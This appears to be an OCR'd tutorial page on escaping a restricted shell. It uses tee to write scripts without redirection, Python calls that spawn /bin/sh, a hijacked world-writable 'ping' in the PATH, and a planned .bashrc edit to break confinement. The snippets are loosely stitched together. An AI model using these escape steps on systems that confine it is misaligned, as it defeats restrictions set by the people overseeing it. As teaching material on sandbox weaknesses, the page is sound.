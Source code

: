 # Interactive Shell From Scratch

## `tee`

If you do not have access to an editor, and would like to create a script, you can make use of the `tee` command. Since you cannot make use of `>` or `>>`, the `tee` command can help you direct your output when used in tandem with the `echo` command. This is not a shell escape in of itself, but consider the following:

```
$ echo "evil script code" | tee script.sh
```

You will be able to create a file called script.sh in your home directory and add your script code to the file. Once the file is created, use the `tee -a` option for all subsequent commands as the `-a` allows you to append to the file rather than overwrite the file.

```python
exit_code = os.system('/bin/sh') 
output = os.popen('/bin/sh').read()
```

```bash
$ cat /tmp/id.sh
#!/bin/sh
/usr/bin/id
```

In this example, ping is a world writable executable located within the `$PATH`. When a terminal opens up, it reads `.bashrc` which tells it what behavior to default to. I used my ping script to cat my `.bashrc`.

```
echo '#!/bin/bash' | tee '/home/confined1/bin/ping'
echo '/bin/cat /home/confined1/.bashrc' | tee -a '/home/confined1/bin/ping'

confined1@someserver:~$ ping
PATH=/home/confined1/bin
export PATH
confined1@someserver:~$
```

So if we change our `.bashrc` file so that instead of setting our `PATH`, it sets our `SHELL` then we should be free! There we go, so now we log out, and back in again. When we log back in, our system will read our new `.bashrc` file and we'll be home free!